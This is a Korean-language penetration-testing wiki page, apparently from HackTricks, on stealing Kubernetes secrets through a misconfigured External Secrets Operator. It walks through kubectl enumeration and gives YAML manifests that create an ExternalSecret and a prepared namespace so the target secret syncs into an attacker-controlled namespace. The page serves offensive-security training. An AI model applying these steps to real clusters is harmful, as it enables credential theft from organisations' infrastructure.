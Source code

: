 # External Secret Operator

{{#include ../../banners/hacktricks-training.md}}

**이 페이지의 원래 저자는** [**Fares**](https://www.linkedin.com/in/fares-siala/)입니다.

이 페이지는 잘못 구성된 ESO 또는 ESO를 사용하여 비밀을 동기화하는 애플리케이션에서 비밀을 훔치는 방법에 대한 몇 가지 팁을 제공합니다.

## Disclaimer

아래에 보여지는 기술은 특정 조건이 충족될 때만 작동할 수 있습니다. 예를 들어, 이는 비밀이 귀하가 소유하거나 침해한 네임스페이스에서 동기화되도록 허용하는 요구 사항에 따라 달라집니다. 스스로 알아내야 합니다.

## Prerequisites

1. 네임스페이스에서 관리자 권한을 가진 kubernetes / openshift 클러스터에 발판을 마련해야 합니다.
2. 클러스터 수준에서 최소한 ExternalSecret에 대한 읽기 권한이 필요합니다.
3. ESO가 귀하의 비밀을 동기화할 수 있도록 허용하는 필수 레이블/주석 또는 그룹 구성원이 필요한지 확인해야 합니다. 운이 좋다면 정의된 비밀을 자유롭게 훔칠 수 있습니다.

### Gathering information about existing ClusterSecretStore

사용자가 이 리소스를 읽을 수 있는 충분한 권한이 있다고 가정하고, 먼저 기존 _**ClusterSecretStores**_를 나열하는 것부터 시작합니다.
```sh
kubectl get ClusterSecretStore
```
### ExternalSecret 열거

ClusterSecretStore 이름이 _**mystore**_인 것을 찾았다고 가정해 보겠습니다. 그에 연결된 externalsecret을 열거해 보세요.
```sh
kubectl get externalsecret -A | grep mystore
```
_이 리소스는 네임스페이스 범위로 설정되어 있으므로, 어떤 네임스페이스를 찾아야 할지 모른다면 -A 옵션을 추가하여 모든 네임스페이스를 검색하세요._

정의된 externalsecret 목록을 얻을 수 있습니다. _**mysecret**_라는 externalsecret 객체가 _**mynamespace**_ 네임스페이스에 정의되어 사용되고 있다고 가정해 보겠습니다. 이 비밀이 어떤 종류의 비밀을 보유하고 있는지에 대한 정보를 좀 더 수집하세요.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### 조각 조립하기

여기에서 하나 이상의 비밀 이름(Secret 리소스에 정의된 대로)을 얻을 수 있습니다. 출력은 다음과 유사합니다:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
지금까지 우리는 다음을 얻었습니다:

- ClusterSecretStore의 이름
- ExternalSecret의 이름
- 비밀의 이름

이제 필요한 모든 것을 갖추었으므로, ExternalSecret을 생성할 수 있습니다 (그리고 궁극적으로 새 비밀이 동기화되도록 필요한 전제 조건을 준수하기 위해 새 Namespace를 패치/생성할 수 있습니다):
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
몇 분 후, 동기화 조건이 충족되면 네임스페이스 내에서 유출된 비밀을 볼 수 있어야 합니다.
```sh
kubectl get secret leaked_secret -o yaml
```
## References

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}



{{#include ../../banners/hacktricks-training.md}}
